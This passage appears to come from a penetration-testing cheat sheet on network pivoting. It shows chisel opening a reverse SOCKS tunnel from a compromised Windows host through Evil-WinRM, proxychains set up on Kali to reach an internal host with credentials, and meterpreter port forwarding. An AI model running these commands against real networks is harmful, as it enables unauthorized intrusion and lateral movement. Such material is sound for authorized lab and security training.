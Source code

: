 ```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\user\Documents>.\chisel.exe client 172.16.1.100:8001 R:1082:socks             
2024/09/29 07:41:35 client: Connecting to ws://172.16.1.100:8001                                        
2024/09/29 07:41:35 client: Connected (Latency 0s)
```

```console
# Or run in background
Start-Job -ScriptBlock { C:\ProgramData\chisel.exe client 172.16.1.100:8001 R:1082:socks }
```

#### 4. Local Kali

```console
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```console
# Add to the end of the file
socks5 127.0.0.1 1082
```

```console
proxychains4 evil-winrm -i 172.16.2.5 -u user -p password
```

```console {class="sample-code"}
$ proxychains4 evil-winrm -i 172.16.2.5 -u user -p password                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  127.0.0.1:1082  ...  172.16.2.5:5985  ...  OK
*Evil-WinRM* PS C:\Users\user\Documents> 
```

<small>*Note: Edit /etc/proxychains4.conf accordingly, depends on which layer you are accessing*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Ports Forwarding

```console
# Add
portfwd add -l <TARGET_PORT> -r <TARGET> -p <TARGET_PORT>
```

```console {class="sample-code"}
meterpreter > portfwd add -l 88 -r 172.16.2.5 -p 88
[*] Forward TCP relay created: (local) :88 -> (remote) 172.16.2.5:88
```
